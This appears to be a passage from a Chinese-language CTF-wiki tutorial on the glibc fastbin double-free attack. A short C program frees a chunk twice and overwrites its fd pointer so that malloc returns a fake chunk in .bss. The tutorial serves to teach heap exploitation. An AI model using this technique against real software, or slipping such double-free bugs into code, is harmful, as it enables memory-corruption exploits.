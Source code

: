 ![Alt](img/wiki-FastbinAttack5.png)

因为chunk1 被再次释放，所以其fd值不再为0而是指向chunk2（再次free(chunk1)时，因为chunk1会被添加到链首，所以chunk1的fd指向chunk2），此时如果可以控制chunk1的内容，便可以写入其fd指针，从而实现任意地址分配fastbin块。

```c++
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    // 分配得到最近释放的fastbin
    *(long long *)chunk_a=&bss_chunk;
    // 修改fd指针指向bss_chunk
    malloc(0x10);
    // 得到chunk2，此时由于chunk1的fd指针指向bss_chunk,所以fastbin链表中还有两个chunk（0x602000 —▸ 0x601080 (bss_chunk) ）
    malloc(0x10);
    // chunk1 被分配出去，只剩下bss_chunk
    chunk_b=malloc(0x10);
    printf("chunk_b = %p\n",chunk_b);
    return 0;
}

```
